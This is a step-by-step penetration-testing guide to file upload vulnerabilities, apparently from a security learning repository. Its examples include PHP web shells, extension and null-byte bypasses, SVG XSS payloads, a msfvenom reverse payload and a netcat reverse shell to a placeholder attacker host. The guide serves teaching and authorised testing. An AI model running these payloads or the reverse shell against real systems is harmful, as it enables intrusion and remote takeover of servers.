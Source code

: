 # File Upload Attacks

[Relative Cheat Sheet](./file-upload-cheat.md)

## Step-by-Step Guide for Testing and Exploiting File Upload Vulnerabilities

### 1. Understand File Upload Vulnerabilities
   - **Explanation**: File upload vulnerabilities occur when applications allow uploading files without proper validation of type, content, or size, potentially leading to remote code execution (RCE) via malicious scripts, client-side attacks like XSS, or denial-of-service (DoS) via resource exhaustion.
   - **Why It's Done**: Understanding the risks (e.g., executing a PHP shell or injecting XSS) helps prioritize testing for high-impact vulnerabilities.
   - **Example**: Uploading `shell.php` with `<?php system($_GET['cmd']); ?>` that executes commands when accessed.

### 2. Identify Upload Features
   - **Explanation**: Locate forms or API endpoints with `<input type="file">` or file upload functionality, such as profile picture uploads or document submissions.
   - **Why It's Done**: These are the entry points for testing; missing them could overlook critical vulnerabilities.
   - **Example**: A user profile page with an avatar upload form.

### 3. Test Unrestricted Uploads
   - **Explanation**: Attempt to upload a malicious file, like a PHP web shell (`<?php system($_REQUEST['cmd']); ?>`), and access it to see if it executes.
   - **Why It's Done**: Lack of validation allows immediate RCE, the highest-impact exploit.
   - **Example**: Upload `shell.php` and access `/uploads/shell.php?cmd=id` to see if `id` command runs.

### 4. Analyze Server File Handling
   - **Explanation**: Determine how the server processes uploaded files—check if it relies on extensions, MIME types, or content inspection, and whether files are executable.
   - **Why It's Done**: Understanding handling (e.g., PHP files executed vs. served as text) informs bypass strategies.
   - **Example**: Upload `test.php` and see if it’s executed or downloaded as plain text.

### 5. Bypass Client-Side Validation
   - **Explanation**: Use a proxy (Burp Suite) or disable JavaScript (DevTools, CTRL+SHIFT+C) to bypass client-side checks on file types or sizes.
   - **Why It's Done**: Client-side validation is easily bypassed, exposing server-side weaknesses.
   - **Example**: Change `image/jpeg` to `application/x-php` in intercepted request.

### 6. Bypass Blacklist-Based Validation
   - **Explanation**: Try uncommon extensions (`phtml`, `php3`), case variations (`pHp`), or double extensions (`shell.php.jpg`) to evade extension blacklists.
   - **Why It's Done**: Blacklists are often incomplete or poorly implemented, allowing malicious files through.
   - **Example**: Upload `shell.phtml` if `.php` is blocked but `.phtml` is not.

### 7. Bypass Whitelist or Content Validation
   - **Explanation**: Use polyglots (files valid as both image and code), null bytes (`shell.php%00.jpg`), or inject characters (`%20`, `%0a`) to trick validation.
   - **Why It's Done**: Whitelists or content checks may miss edge cases, enabling execution.
   - **Example**: Create a JPEG with PHP code in metadata using ExifTool, upload as `image.jpg`.

### 8. Test for Race Conditions
   - **Explanation**: Rapidly upload files to exploit temporary file storage before validation or deletion.
   - **Why It's Done**: Race conditions can allow access to files before they’re removed.
   - **Example**: Fuzz temporary file names like `/tmp/phpXXXXXX` during upload.

### 9. Test Client-Side Attacks
   - **Explanation**: Upload files triggering client-side vulns, like SVG with `<script>alert(1)</script>` for XSS or XML with XXE payloads.
   - **Why It's Done**: If RCE is blocked, client-side attacks still have impact.
   - **Example**: Upload `malicious.svg` with `<svg onload=alert(1)>` and access it.

### 10. Escalate to RCE or Other Impacts
   - **Explanation**: If a file executes, use it for RCE (e.g., reverse shell via `msfvenom -p php/reverse_php`). Chain with LFI for further exploitation.
   - **Why It's Done**: Maximizes impact, turning upload into full system access.
   - **Example**: Upload `shell.php`, access `/uploads/shell.php?cmd=nc -e /bin/sh attacker_ip 9001`.

### 11. Assess Prevention Measures
   - **Explanation**: Check for strong validation (whitelists, content checks), random file names, or non-executable upload directories.
   - **Why It's Done**: Informs remediation, like storing files outside web root or disabling script execution.
   - **Example**: Secure app renames files to random UUIDs and serves as `Content-Type: application/octet-stream`.

This guide, based on PortSwigger Web Security Academy and the provided cheat sheet, provides a thorough process for testing file upload vulnerabilities. Test ethically and report responsibly.